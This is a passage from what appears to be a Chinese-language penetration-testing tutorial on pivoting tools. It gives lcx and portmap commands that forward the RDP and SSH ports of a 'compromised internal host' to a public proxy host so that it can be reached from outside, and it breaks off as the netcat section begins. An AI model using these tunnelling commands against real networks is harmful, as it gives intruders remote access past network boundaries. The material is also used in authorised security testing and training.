 ![](https://gitee.com/fuli009/images/raw/master/public/20211027204331.png)

# 0x07 lcx、netcat 和 socat 的使用

## 1、lcx 使用

lcx 分为 Windows 版和 Linux 版，Linux 版叫 portmap

### Windows

  * 内网端口转发

    
    
    内网失陷主机  
    lcx.exe -slave rhost rport lhost lport  
      
    公网代理主机  
    lcx.exe -listen lport1 lport2
    
    
    内网失陷主机  
    lcx.exe -slave 123.123.123.123 4444 127.0.0.1 3389  
      
    公网代理主机  
    lcx.exe -listen 4444 5555

在建立连接后，访问公网代理主机的 5555 端口就能访问到内网失陷主机的 3389 端口了。

  * 本地端口映射

如果目标主机不能出网，这时可以利用内网中能够出网的主机，将其不能出网的主机端口映射到自身上，再借助端口转发到公网进行访问。

    
    
    lcx.exe -tran 53 <目标主机 IP 地址> 3389

### Linux

  * 内网端口转发

    
    
    内网失陷主机  
    ./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 <公网主机 IP> -p2 4444  
      
    公网代理主机  
    ./portmap -m 2 -p1 4444 -h2 <公网主机 IP> -p2 5555

此时访问公网主机 IP 的 5555 端口，就会访问到内网失陷主机的 22 端口了。

## 2、netcat 使用

nc 下载地址：https://eternallybored.org/misc/netcat/

nc 全称 netcat，它的功能很多，这里简单记录下两个常用的功能，其他的比如文件传输、端口扫描等等的就不介绍了，毕竟平时使用频率有一说一还是比较少的。

    
    